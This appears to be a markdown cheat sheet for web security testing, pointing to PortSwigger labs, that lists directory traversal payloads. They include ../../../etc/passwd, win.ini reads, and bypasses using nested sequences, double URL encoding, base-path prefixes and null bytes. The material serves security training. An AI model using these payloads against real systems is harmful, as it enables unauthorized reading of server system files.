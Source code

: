 # Directory Traversal

## Summary

* [Recon for Directory Traversal Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)


## Resources

* https://portswigger.net/web-security/file-path-traversal
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include


## Recon

### Identify Directory Traversal

* Identify any application functionality that is likely to involve retrieval of data from a server’s filesystem.


* Look for any input fields that reference a file or directory name, or that contain any file extensions. 

    * Example: ?file=test, ?item=test.html


* After identifying potential targets for directory traversal testing, we need to test every instance individually to determine if user controllable data is used to interact with the server filesystem in an unsafe way.


## Cheat Sheet

### No Defenses in place

* This is a basic payload that can be used to test for directory traversal vulnerabilities when the application doesn’t implement any input validation.  This payload will step up 3 directories to reach the filesystem root, then reference another common file depending on the operating system in use.

```bash 
../../../etc/passwd
```
```bash
../../../windows/win.ini
```

<br><br>
**Many applications that place user input in file paths implement some defenses against traversal attacks.  The following payloads include some techniques to use in order to bypass these defenses.**

<br><br>
### Non-recursive filtering bypass

* The application is filtering out the ../ characters, but not in a recursive manner:

```bash
....//....//....//etc/passwd   
```
```bash
..././..././..././etc/passwd
```



### Absolute path bypass

* This payload references the file directly without the use of the traversal sequences

```bash
/etc/passwd  
```


### Encoding bypass

* Double URL encode the following payload:

```bash
../../../etc/passwd
```

* Other variations of the above:

    * Double URL encode only the / character in ../ :

```bash
..%25%32%66
```

   * URL encode the / character ..%2f , then URL encode only the % character in ..%2f :

```bash
..%252f
```

<br><br>
**Burp Pro includes a Path Traversal fuzzing wordlist that has many variations of encoding sequences to use.**
<br><br>


### Validation of starting path bypass

* Sometimes the application requires that the supplied filename begins with a base folder.  We can include this base folder and add in the traversal sequences after it.

```bash
/var/www/images/../../../etc/passwd
```


### File extension validation bypass

* If the application requires that the filename must end with a certain file extension, we can inject a null byte to possibly terminate the file path before the required extension:

```bash
../../../etc/passwd%00.png
```
